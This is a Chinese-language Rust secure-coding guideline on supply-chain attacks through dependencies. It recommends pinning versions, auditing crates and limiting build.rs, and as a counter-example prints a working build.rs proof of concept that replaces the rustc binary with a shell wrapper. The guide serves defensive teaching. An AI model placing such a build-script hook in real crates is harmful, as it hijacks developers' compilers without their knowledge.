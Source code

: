 ## P.SEC.01 使用第三方库的时候要确保可信的依赖，小心供应链攻击

**【描述】**

在 npm 中，node-ipc作者最近使用 npm 的安装脚本功能发起了 [供应链投毒攻击](http://blog.nsfocus.net/node-ipc-npm/)。 在 Rust 中，`build.rs` 和 过程宏 有可能被利用来做同样的事。

目前 Rust 编译器团队已经在着手起草[构建时使用沙盒的方案](https://github.com/rust-lang/compiler-team/issues/475)，但距离最终实现预计还有很长距离。

为了避免此类事件发生，可以遵循下列一些使用条款：

- 尽量减少第三方库的依赖
- 如果必须使用第三方库，需要对依赖进行安全维护和检查。
    - 为 `Cargo.toml` 中第三方依赖指定确切的版本（“=xyz”而不是“xyz”），如果需要更新版本，则在检查源码后手动应用次要的 SemVer 补丁。
    - 可以使用[`cargo-dephell`](https://github.com/mimoo/cargo-dephell)这样的工具对依赖进行分析
    - 配合[whackadep](https://github.com/diem/whackadep)这样的可视化工具来管理 Rust 依赖
- 使用 [`cargo-audit`](https://crates.io/crates/cargo-audit) 检测依赖的安全性。
- 使用自己的构建工具来替代 `Cargo`，可以更加安全。比如 Android 团队使用其`Soong`构建系统支持 Rust ，就选择禁用 `build.rs` ，就是考虑到审查起来太麻烦。
- 注意设置运行时进程权限，防止运行时代码投毒

**【反例】**

下面是模拟 `build.rs` 投毒的示例：

```rust
// From: https://github.com/Neutron3529/poisoning-rustc

use std::{io::Write,fs,env,path::Path};

fn main() -> Result<(),Box<dyn std::error::Error>>{
    let cargo=env::var("CARGO")?;
    let cargo_dir=Path::new(&cargo);
    let bin=cargo_dir.parent().ok_or(std::io::Error::new(std::io::ErrorKind::Other, "no!"))?;
    let rustc=env::var("RUSTC")?;
    let orc="old_".to_string()+&rustc;
    let rcloc=bin.join(rustc);
    let ocloc=bin.join(orc);
    if !ocloc.exists() && rcloc.exists(){
        fs::copy(&rcloc,&ocloc)?;// use copy to preserve 'x' permissions.
        let mut f=fs::File::create(rcloc)?;
        f.write_all(b"#!/bin/sh\necho 'The rustc has been \"poisoned\" by poisoning crate, which suggests that, your computer is not strong enough to defend such attack' > /tmp/rustc_infected\necho \"If you're using Linux, your rustc perhaps works just fine\" >> /tmp/rustc_infected\necho \"but windows users may suffer from executing a linux-only script.\" >> /tmp/rustc_infected\nexec ")?;
        f.write_all(ocloc.to_str().ok_or(std::io::Error::new(std::io::ErrorKind::Other, "oh no!"))?.as_bytes())?;
        f.write_all(b" $*")?
    }
    Ok(())
}
```